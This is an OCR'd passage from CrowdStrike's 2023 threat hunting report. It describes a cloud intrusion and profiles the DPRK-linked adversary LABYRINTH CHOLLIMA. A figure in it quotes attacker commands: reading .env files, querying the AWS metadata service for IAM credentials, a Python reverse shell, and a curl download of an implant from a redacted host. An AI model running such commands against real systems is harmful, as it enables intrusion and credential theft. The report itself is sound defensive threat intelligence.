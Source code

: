 information.

The adversary leveraged SSM Orchestration in an 

attempt to execute multiple Python reverse shells.

cat . bash\_history, cat .env

Cloud\-conscious discovery included querying the 

AWS Instance Metadata Service API to enumerate 

IAM roles.

curl \-k http://169\.254\.169\[.]254/latest/

meta\-data/iam/security\-credentials/

\[REDACTED IAMRole]

python3 \-c import os,pty,socket; s\=socket.

socket(); s.connect (("\[REDACTED 

IPAddress]", \[REDACTED PORT])); \[os.

dup2 (s.fileno(),f)for f in(0,1,2\)]; pty.

spawn("sh")

The adversary also used curl during the intrusion to 
ingress the Silver implant.

curl hxxp://\[REDACTED ExternalIPAddress]/

\[REDACTED FileName] \-o /dev/shm/\[REDACTED 

FileName] \-a

Figure 11\. Highlights from an intrusion against a cloud service provider system

© 2023 CrowdStrike, Inc. All rights reserved. 

© 2023 CrowdStrike, Inc. All rights reserved. NOWHERE TO HIDECROWDSTRIKE 2023 THREAT HUNTING REPORTCross\-Platform Proficiency
Takes Center Stage 

Today’s organizations rely on multiple operating systems working in concert for 
IT environments to run efficiently. Falcon OverWatch threat hunters are skilled at 
hunting across all major platforms — Windows, Linux and macOS. 

This year, Falcon OverWatch saw adversaries showcase their prowess across all 
of these systems. LABYRINTH CHOLLIMA led the charge, highlighting their ability 
to operate across Windows and macOS in their targeting of the 3CX supply chain. 
Notorious for targeting financial technology and cryptocurrency organizations, 
LABYRINTH CHOLLIMA was observed updating both their custom tooling and 
their tradecraft to work specifically on Linux and macOS. 

Threat Actor Spotlight: LABYRINTH CHOLLIMA

LABYRINTH CHOLLIMA is one of the most prolific Democratic People’s Republic 
of Korea (DPRK) adversaries tracked by CrowdStrike and has been active since at 
least 2009\. CrowdStrike assesses this adversary is likely affiliated with Bureau 121 
of the DPRK’s Reconnaissance General Bureau (RGB) — North Korea’s preeminent 
intelligence service. 
